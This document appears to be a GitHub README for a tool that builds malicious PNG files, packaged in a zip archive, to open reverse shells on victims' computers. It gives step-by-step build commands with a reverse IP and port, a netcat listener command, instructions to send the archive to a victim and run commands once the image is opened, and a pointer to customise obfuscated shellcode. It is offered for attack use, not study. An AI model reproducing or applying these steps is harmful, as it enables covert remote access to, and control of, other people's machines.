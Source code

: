 # X-image-malware
png malware for initial access and open rev sockets

## installation
`git clone https://github.com/hunt3rub/X-image-malware.git`<br/>
`pip install requirements.txt`

## how to build PNG malware?
### 1- build malicious PNG picture:
`python3 main.py -reverse-ip 192.168.1.1 -reverse-port 4242 -img custom-picture.png`<br/>
### 2- zip or rar build folder:
open build folder and `zip all files`.
see a picture with png format and two hidden picture.

### 3- open listener:
`nc -lvnp 4242`<br/>
> [!NOTE]
> you must open port 4242 in firewall and have static ip.

### 4- send zip folder to Victim:
after open PNG file you can access to victim and exec command!

## customized shellcode:
open shellcode.py and set your custom payload with obfuscate.

for free gaza
telegram channel: https://t.me/@our_leaks
